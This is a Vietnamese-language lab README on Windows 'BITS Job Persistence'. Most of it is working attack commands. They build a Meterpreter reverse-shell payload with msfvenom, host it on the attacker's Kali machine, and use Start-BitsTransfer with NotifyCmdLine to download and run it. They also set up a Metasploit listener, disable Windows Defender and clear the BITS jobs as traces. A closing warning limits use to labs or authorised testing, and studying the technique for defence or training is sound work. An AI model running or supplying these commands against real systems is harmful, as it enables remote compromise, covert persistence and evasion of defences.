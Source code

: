 # BITS-Job-Persistence

## 📌 Giới Thiệu

**BITS Job Persistence** là kỹ thuật sử dụng Background Intelligent Transfer Service (BITS) để tải xuống và thực thi payload độc hại trên máy Windows, giúp duy trì persistence.



## 🔧 1. Môi Trường Lab

### Yêu Cầu Phần Mềm
✅ VMware Workstation / VirtualBox  
✅ Kali Linux (máy tấn công)  
✅ Windows 10 (máy nạn nhân)  
✅ Metasploit Framework  

### Cấu Trúc Lab
- **Kali Linux**: Máy tấn công chạy Metasploit, đóng vai trò máy chủ C2.
- **Windows 10**: Máy nạn nhân, nơi khai thác BITS Job Persistence.
- **Mạng**: Bridged/NAT để hai máy có thể giao tiếp.

---

## 🎯 2. Cấu Hình Máy Ảo

### Kali Linux (Máy tấn công)
- RAM: **2GB+**, Disk: **20GB+**
- Cập nhật hệ thống:
```bash
sudo apt update && sudo apt upgrade -y
```
- Cài Metasploit nếu chưa có:
```bash
sudo apt install metasploit-framework -y
```

### Windows 10 (Máy nạn nhân)
- RAM: **4GB+**, Disk: **40GB+**
- Tắt Windows Defender (hoặc tạo ngoại lệ cho folder test).
- BITS Service mặc định luôn chạy.

---

## 🚀 3. Tạo Payload Metasploit

Trên Kali Linux, tạo payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_KALI> LPORT=4444 -f exe > /var/www/html/payload.exe
```
- **LHOST**: IP của Kali Linux.
- **LPORT**: Cổng listener.

Khởi chạy server trên Kali:
```bash
sudo systemctl start apache2
```
Kiểm tra payload:
```bash
ls /var/www/html/payload.exe
```

---

## 🔥 4. Khai Thác BITS Job Persistence

Trên Windows 10, mở **PowerShell (Admin)** và chạy:
```powershell
$job = Start-BitsTransfer -Source "http://<IP_KALI>/payload.exe" -Destination "C:\Users\Public\payload.exe"
Set-BitsTransfer -JobId $job -NotifyCmdLine "C:\Users\Public\payload.exe"
Complete-BitsTransfer -JobId $job
```
📌 **Giải thích:**
- Tải `payload.exe` về `C:\Users\Public`.
- Cấu hình `NotifyCmdLine` để thực thi payload.
- **Persistence**: Nếu job chưa hoàn tất, nó sẽ tiếp tục chạy sau restart.

---

## 🎯 5. Thiết Lập Listener trên Kali

Trên Kali, chạy Metasploit:
```bash
msfconsole
```
Cấu hình listener:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_KALI>
set LPORT 4444
exploit
```
📌 Khi BITS job hoàn thành, payload sẽ kết nối đến Kali, tạo **Meterpreter session**.

---

## 🔍 6. Kiểm Tra Kết Nối & Duy Trì Persistence

📌 Nếu khai thác thành công, ta sẽ có **Meterpreter Session**:
```bash
meterpreter > sysinfo
meterpreter > shell
```

---

## 🛠 7. Xóa BITS Job & Dấu Vết

🗑️ Xóa tất cả BITS Job trên Windows:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
📌 Kiểm tra lại:
```powershell
bitsadmin /list /allusers
```

---

## ⚠️ Cảnh Báo
🚨 **Chỉ sử dụng kỹ thuật này trong môi trường lab hoặc với sự cho phép hợp pháp!** 🚨
